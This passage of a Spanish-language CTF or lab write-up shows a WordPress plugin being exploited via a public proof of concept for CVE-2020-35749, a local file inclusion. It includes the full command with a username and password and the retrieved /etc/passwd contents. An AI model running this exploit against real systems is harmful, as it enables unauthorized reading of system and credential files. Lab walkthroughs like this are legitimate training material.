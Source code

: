 En este menú, en el pie de página, encontramos una versión, pero al buscar por Google, vemos que la última versión es la `2.13.1` por lo cual esto es imposible.
![Write-up Image](images/Screenshot_8.png)

Nos encontramos también con [este PoC](https://github.com/M4xSec/Wordpress-CVE-2020-35749/blob/main/CVE-2020-35749.py), explota un **Local File Inclusion** en la versión 2.9.3 de este plugin. Por probar no perdemos nada.

Sorprendentemente funciona, sinceramente he tenido suerte ya que no había detectado la versión del plugin y he probado por probar..
```console
python3 lfi.py http://devoops.bsh/wordpress/ /etc/passwd sarah vlVL6hcA4s1k

Y88b         /                888~~                     888          ,e,   d8
 Y88b       /  888-~88e       888___ Y88b  /  888-~88e  888  e88~-_   "  _d88__
  Y88b  e  /   888  888b ____ 888     Y88b/   888  888b 888 d888   i 888  888
   Y88bd8b/    888  8888      888      Y88b   888  8888 888 8888   | 888  888
    Y88Y8Y     888  888P      888      /Y88b  888  888P 888 Y888   ' 888  888
     Y  Y      888-_88"       888___  /  Y88b 888-_88"  888  "88_-~  888  "88_/
               888                                888
			(CVE-2020-35749)
	{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }


[+] Trying to fetch the contents from /etc/passwd


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
john:x:1000:1000:John Doe,,,:/home/john:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false


[+] Output Saved as: output.txt
```
De estos usuarios solo me interesa el usuario `john` ya que es el único que tiene una bash.
